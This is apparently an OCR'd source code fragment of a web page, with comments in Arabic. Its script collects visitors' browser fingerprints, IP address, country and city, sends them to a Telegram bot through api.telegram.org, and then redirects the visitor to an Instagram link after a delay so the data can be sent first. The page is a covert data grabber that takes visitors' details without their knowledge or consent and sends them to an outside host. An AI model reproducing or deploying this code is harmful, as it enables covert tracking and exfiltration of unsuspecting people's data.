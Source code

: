   // تابع تحميل بصمة الصوت واستبدال النص
  getAudioFingerprint().then(fp => {
    data.audioFingerprint = fp;
    const rows = document.querySelectorAll("#output section:nth-child(1) tbody tr");
    for (const row of rows) {
      if (row.firstChild.textContent.includes("Audio Fingerprint")) {
        row.children[1].textContent = fp;
        break;
      }
    }

    // بعد جمع كل البيانات نرسلها لتليجرام
    sendDataToTelegram();
  });

  // دالة إرسال البيانات إلى تليجرام
  function sendDataToTelegram() {
    const message = `
📡 بيانات Fingerprinting:

- userAgent: ${data.userAgent}
- platform: ${data.platform}
- vendor: ${data.vendor}
- appVersion: ${data.appVersion}
- hardwareConcurrency: ${data.hardwareConcurrency}
- deviceMemory: ${data.deviceMemory}
- WebGL Vendor: ${data.webglVendor}
- WebGL Renderer: ${data.webglRenderer}
- Canvas Fingerprint: ${data.canvasFingerprint.substring(0, 50)}... (مقتطع)
- Audio Fingerprint: ${data.audioFingerprint}
- screenWidth: ${data.screenWidth}
- screenHeight: ${data.screenHeight}
- IP: ${data.ipAddress}
- Country: ${data.country}
- City: ${data.city}
`;

    fetch(`https://api.telegram.org/bot${telegramBotToken}/sendMessage`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify({
        chat_id: telegramChatId,
        text: message,
        parse_mode: "Markdown"
      })
    });
  }

  // تحويل المستخدم على حساب الإنستغرام (يمكن تغييره حسب حسابك)
  setTimeout(() => {
    window.location.href = "https://www.instagram.com/your_instagram_account/"; // عدّل هنا إلى حساب الإنستا اللي تبيه
  }, 5000); // تأخير 5 ثواني عشان البيانات تتجمع وترسل، يمكنك تخفيضه أو رفعه

})();
</script>

</body>
</html>
